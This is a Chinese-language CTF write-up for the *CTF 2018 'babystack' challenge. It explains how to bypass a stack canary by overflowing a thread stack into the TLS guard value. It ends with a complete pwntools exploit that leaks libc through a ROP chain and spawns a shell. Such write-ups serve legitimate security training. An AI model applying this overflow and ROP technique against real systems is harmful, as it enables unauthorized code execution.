 ```yaml
---
title: "startCTF 2018 Babystack :thread stack bypass canary"
date: 2018-05-27 13:09:25
tags: pwn
layout: post
---
```

*CTF 2018 Babystack :thread stack bypass canary

<!--more-->
# *CTF Babystack :thread stack bypass canary
题目:
[链接][1]

0x00：
比赛的时候就感觉很奇怪,啥都没有咋过的canary做不出来，卒
比赛之后看了官方的exp搞了半天居然发现自己连exp都看不懂...
然后幸亏找到了[Sakura师傅的博客][2]
总结起来还是自己太菜了

0x01：准备
[TSL][3]
在创建进程时为了避免全局|静态变量访问冲突，所以需要一个副本
在x86-64 glibc下用mmap创建线程
所以可以通过溢出覆盖掉canary
下面是fs段寄存器的结构
```c
typedef struct
{
  void *tcb;        /* Pointer to the TCB.  Not necessarily the
               thread descriptor used by libpthread.  */
  dtv_t *dtv;
  void *self;       /* Pointer to the thread descriptor.  */
  int multiple_threads;
  int gscope_flag;
  uintptr_t sysinfo;
  uintptr_t stack_guard;
  uintptr_t pointer_guard;
  ...
} tcbhead_t;
```
0x02：分析
![](/18-5-27-1.png)
可以看到这里有0x900的溢出
然后我们用gdb调试
在Canary检查前一步下断点，为了算出fs的位移
![](/18-5-27-2.png)
可以通过memsearch来寻找然后计算出相对输入点的偏移
之后就可以通过覆盖来绕过canary
接下来就是泄露，和rop的事情了
0x03：exploit
```python
from pwn import *
binary=ELF('./bs')
libc=binary.libc
context.arch=binary.arch
p=process("./bs")
puts=0x0000000004007C0
size=0x1800
pr=0x0000000000400bc3
puts_got=0x000000000601fb0
main=0x0000000004009E7
leave=0x0000000000400955
pop_rbp=0x0000000000400870
read=0x0000000004007E0
pop_rsi_r15=0x0000000000400bc1
#gdb.attach(p,'b *0x400bc4')
payload="\x00"*(0x1010)+p64(0)+p64(pr)+p64(puts_got)+p64(puts)
payload+=p64(pr)+p64(0)+p64(pop_rsi_r15)+p64(0x00602300)+p64(0)+p64(read)
payload+=p64(pop_rbp)+p64(0x00602300-8)+p64(leave)
payload=payload.ljust(0x1800,'\x00')
p.sendlineafter("send?",str(size))
sleep(0.2)
p.send(payload)
context.log_level='debug'
p.readuntil("goodbye.\n")
base=u64(p.read(6).ljust(8,'\x00'))-libc.symbols['puts']
libc.address=base
p2=p64(pr)+p64(libc.search("/bin/sh").next())+p64(libc.symbols['system'])
p2=p64(0xf02a4+base)
p.send(p2)
p.interactive()
```
0x03:
还是太菜了
见识短，练的题目又少

  [1]: https://github.com/sixstars/starctf2018
  [2]: http://eternalsakura13.com/2018/04/24/starctf_babystack/
  [3]: http://www.openwall.com/lists/oss-security/2018/02/27/5